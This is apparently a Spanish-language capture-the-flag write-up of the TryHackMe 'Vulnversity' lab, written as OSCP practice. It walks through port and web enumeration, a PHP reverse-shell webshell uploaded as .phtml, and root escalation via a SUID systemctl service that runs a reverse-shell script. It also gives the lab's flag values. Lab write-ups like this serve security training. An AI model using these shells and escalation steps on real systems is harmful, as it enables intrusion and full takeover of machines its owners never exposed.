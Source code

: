 # 💻 Vulnversity

> 🔊 Plataforma: TryHackMe  
> 🛡️ Nivel de dificultad: Fácil  
> 💡 Preparación OSCP - **igneosec**

---

## 🗓️ Información general

- **Nombre de la máquina**: Vulnversity
- **Dirección IP**: 10.10.79.169
- **Sistema operativo**: Linux (Ubuntu)
- **Tipo de acceso / Vector de entrada**: Subida de archivo web (formulario) → Webshell → Privesc via systemctl

---

## 🔍 Enumeración

### 🔹 Escaneo de puertos

```bash
nmap -sS -v -n -p- --min-rate=5000 -oN firstscan 10.10.79.169 -Pn
```

Puertos relevantes:

- `21/tcp` → FTP (vsftpd 3.0.3)
- `22/tcp` → SSH (OpenSSH 7.2p2)
- `139, 445/tcp` → Samba 4.3.11
- `3128/tcp` → Squid Proxy 3.5.12
- `3333/tcp` → HTTP (Apache 2.4.18)

```bash
nmap -sCV -p21,22,139,445,3128,3333 -oN targetscan 10.10.79.169
```

---

## 🧐 Enumeración web

### 🔹 Escaneo con Gobuster

Para identificar rutas internas en el sitio web, se utilizó `gobuster`:

```bash
gobuster dir -u http://10.10.79.169:3333 -w /usr/share/wordlists/dirb/common.txt -o gobuster.txt
```

Resultados clave:

- `/internal/` → página con formulario de subida
- `/internal/uploads/` → ubicación accesible de los archivos subidos
- `/css/`, `/js/`, `/images/` → recursos estáticos

### 🔹 Análisis manual posterior
- Se identificó un formulario de subida en `http://10.10.79.169:3333/internal`.
- Se probaron extensiones alternativas y se validó que `.phtml` era aceptada y ejecutada como PHP.
- Se accedió a los archivos subidos vía navegador en `/internal/uploads/`, confirmando ejecución remota.

---

## 💀 Explotación inicial

Tras probar subir varias extensiones al formulario, se descubrió que aceptaba `.phtml`, lo cual indicaba una validación débil de extensiones.

Además, los archivos subidos eran accesibles desde `/internal/uploads/`, sin restricciones de permisos ni autenticación. Estas condiciones hacían viable el uso de una reverse shell en formato `.phtml`.


### 🔥 Subida de Webshell:

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.21.164.206/4444 0>&1'");
?>
```

- El archivo fue subido como `shell.phtml`.
- Acceso vía: `http://10.10.79.169:3333/internal/uploads/shell.phtml`
- Se obtuvo reverse shell como `www-data`.

---

## 📦 Post-Explotación

El proceso de escalada comenzó con la búsqueda de binarios con el bit SUID activado:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Se detectó `/bin/systemctl` con SUID. Esto es crítico, ya que `systemctl` permite iniciar servicios como root. Al tenerlo con SUID, cualquier usuario puede abusarlo para ejecutar scripts arbitrarios como root.

Otros binarios SUID como `/bin/mount` o `/bin/ping` se descartaron por ser menos prácticos sin argumentos adicionales o sin configuraciones auxiliares. `systemctl` era la opción más directa y efectiva.

Este enfoque se eligió por varias razones:
- No requiere credenciales ni exploits externos.
- Utiliza herramientas ya presentes en el sistema.
- Permite una ejecución directa del payload con privilegios elevados.

### ⚙️ Preparación del entorno de escalada

#### Creación del script de reverse shell:

```bash
echo '#!/bin/bash
bash -i >& /dev/tcp/10.21.164.206/4445 0>&1' > /tmp/rootrev.sh
chmod +x /tmp/rootrev.sh
```

#### Creación del servicio malicioso:

```bash
cat << EOF > /tmp/rootrev.service
[Unit]
Description=Root Reverse Shell

[Service]
Type=simple
ExecStart=/tmp/rootrev.sh

[Install]
WantedBy=multi-user.target
EOF
```

### 🧪 Problemas enfrentados y solución

1. **Error: `mount not found`**
   - Se intentó `systemctl start /tmp/rootrev.service`
   - Error: `Unit tmp-rootrev.service.mount not found`
   - Solución: usar `systemctl link` y luego `start` sin usar rutas completas como nombre de unidad.

2. **Error: `Too many levels of symbolic links`**
   - Ocurrió al hacer múltiples pruebas con el mismo nombre de servicio.
   - Solución: cambiar nombre del servicio (`new_rootrev.service`).

### ✅ Ejecución final exitosa

```bash
systemctl link /tmp/rootrev.service
systemctl start rootrev.service
```

- Se obtuvo shell como `root` en el puerto 4445.

---

## 🌟 Flags encontradas

### 🧾 Flag de usuario

```bash
cat /home/bill/user.txt
```

`8bd7992fbe8a6ad22a63361004cfcedb`

### 🧾 Flag de root

```bash
cat /root/root.txt
```

`a58ff8579f0a9270368d33a9966c7fd5`

---

## 📚 Lecciones aprendidas

- **Formularios de subida**: no asumir que bloquean todas las extensiones. `.phtml` es frecuentemente olvidada por validaciones básicas y puede ejecutarse como PHP.

- **Abuso de `systemctl` con SUID**: si está mal configurado, es una escalada directa. Crear servicios propios apuntando a scripts controlados permite ejecución como root.

- **Errores comunes en `systemd`**:
  - `Too many symbolic links` → conflicto al reusar nombres de unidad o enlaces rotos.

- **Debugging con `journalctl`**: imprescindible revisar logs de servicios fallidos para entender por qué no se ejecutan.

---

📄 Writeup realizado por **igneosec**

📊 Parte del laboratorio ofensivo: [https://github.com/igneosec](https://github.com/igneosec)

